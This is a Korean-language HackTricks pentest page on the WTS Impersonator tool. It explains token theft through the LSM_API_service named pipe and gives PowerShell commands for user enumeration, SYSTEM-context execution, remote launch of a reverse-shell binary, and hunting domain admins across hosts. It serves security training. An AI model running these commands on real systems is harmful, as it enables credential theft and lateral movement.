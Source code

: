 {{#include ../../banners/hacktricks-training.md}}

**WTS Impersonator** 도구는 **"\\pipe\LSM_API_service"** RPC 명명된 파이프를 이용하여 로그인한 사용자를 은밀하게 열거하고 그들의 토큰을 탈취하여 전통적인 토큰 위장 기법을 우회합니다. 이 접근 방식은 네트워크 내에서 원활한 수평 이동을 가능하게 합니다. 이 기법의 혁신은 **Omri Baso**에게서 비롯되었으며, 그의 작업은 [GitHub](https://github.com/OmriBaso/WTSImpersonator)에서 확인할 수 있습니다.

### 핵심 기능

이 도구는 일련의 API 호출을 통해 작동합니다:
```powershell
WTSEnumerateSessionsA → WTSQuerySessionInformationA → WTSQueryUserToken → CreateProcessAsUserW
```
### 주요 모듈 및 사용법

- **사용자 열거**: 도구를 사용하여 로컬 및 원격 사용자 열거가 가능합니다. 각 시나리오에 대한 명령을 사용합니다:

- 로컬에서:
```powershell
.\WTSImpersonator.exe -m enum
```
- 원격으로, IP 주소나 호스트 이름을 지정하여:
```powershell
.\WTSImpersonator.exe -m enum -s 192.168.40.131
```

- **명령 실행**: `exec` 및 `exec-remote` 모듈은 작동하기 위해 **서비스** 컨텍스트가 필요합니다. 로컬 실행은 WTSImpersonator 실행 파일과 명령만 필요합니다:

- 로컬 명령 실행 예:
```powershell
.\WTSImpersonator.exe -m exec -s 3 -c C:\Windows\System32\cmd.exe
```
- PsExec64.exe를 사용하여 서비스 컨텍스트를 얻을 수 있습니다:
```powershell
.\PsExec64.exe -accepteula -s cmd.exe
```

- **원격 명령 실행**: PsExec.exe와 유사하게 원격으로 서비스를 생성하고 설치하여 적절한 권한으로 실행할 수 있게 합니다.

- 원격 실행 예:
```powershell
.\WTSImpersonator.exe -m exec-remote -s 192.168.40.129 -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe -id 2
```

- **사용자 헌팅 모듈**: 여러 시스템에서 특정 사용자를 대상으로 하여 그들의 자격 증명으로 코드를 실행합니다. 이는 여러 시스템에서 로컬 관리자 권한을 가진 도메인 관리자를 타겟팅하는 데 특히 유용합니다.
- 사용 예:
```powershell
.\WTSImpersonator.exe -m user-hunter -uh DOMAIN/USER -ipl .\IPsList.txt -c .\ExeToExecute.exe -sp .\WTServiceBinary.exe
```

{{#include ../../banners/hacktricks-training.md}}
